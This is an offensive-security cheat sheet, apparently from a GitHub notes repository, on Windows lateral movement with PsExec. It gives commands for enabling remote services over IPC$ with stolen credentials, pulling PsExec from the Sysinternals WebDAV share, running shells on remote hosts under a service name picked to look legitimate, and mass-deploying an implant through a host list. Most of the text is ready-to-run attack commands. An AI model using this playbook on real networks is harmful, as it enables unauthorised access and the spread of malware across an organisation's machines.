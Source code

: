 # Living off the Land

Search Tag(s): #lateral-movement #psexec #windows

## 01 - Conditions

It requires specific services to be enabled in order for PsExec to work. Here are the commands to enable it.

```
C:\> net use \\<IP>\IPC$ /user:<username> <password>
sc \\<IP> config netdde start= auto
sc \\<IP> config netddedsdm start= auto
sc \\<IP> config clipsrv start= auto
sc \\<IP> start netdde
sc \\<IP> start netddedsdm
sc \\<IP> start clipserv
```

## 02 - Sysinternals

### 2.1 - Copy File from WebDAV

#### 2.1.1 - Command Prompt

```
C:\> net use z: \\live.sysinternals.com\tools

C:\> copy z:\PsExec64.exe .

C:\> net use z: /delete
```

#### 2.1.2 - Powershell

```
PS C:\> New-PSDrive -Name Z -PSProvider FileSystem -Root "\\live.sysinternals.com\tools"

PS C:\> Copy-Item z:\PsExec64.exe .

PS C:\> Remove-PSDrive -Name Z
```

## 03 - Execute PsExec

### 3.1 - Single Machine

```
C:\> PsExec64.exe \\<IP> -u <domain>\<username> -p <password> -nobanner -r "A legit service name" cmd.exe

C:\> PsExec64.exe \\<IP> -u <domain>\<username> -p <password> -nobanner -r "A legit service name" -d -c "C:\path\to\shell.exe"

C:\> PsExec64.exe \\<IP> -u <domain>\<username> -p <password> -nobanner -d -c "C:\path\to\shell.exe"
```

### 3.2 - Multiple Machines

When targeting multiple computers just add the `@` sign.

```
C:\> PsExec64.exe @hosts.txt -u <domain>\<username> -p <password> "<commands>"
```

## 04 - Use Cases

### 4.1 - Copy and Execute Implant in Multiple Machines

Note: Use an `Administrator` user or an domain admin that has access to all Windows machines.

```
C:\> PsExec64.exe @hosts.txt -u <domain>\<username> -p <password> cmd.exe /c copy /y "\\<IP>\C$\implant.exe" "C:\Windows\Temp\"

PsExec64.exe @hosts.txt -u <domain>\<username> -p <password> -d -c "cmd.exe /c C:\Windows\Temp\implant.exe"
```

---
## References

- [Infinite Logins: Popping Remote Shells with Winexe & PTH-Winexe on Windows](https://infinitelogins.com/2020/09/05/popping-remote-shells-pth-winexe-on-windows/)

- [Abusing Windows Admin Shares (Lateral Movement)](https://www.youtube.com/watch?v=41MUhlHGZ4E)

- [Pass the Hash is Dead Long Live Pass the Hash](https://blog.harmj0y.net/penetesting/pass-the-hash-is-dead-long-live-pass-the-hash/)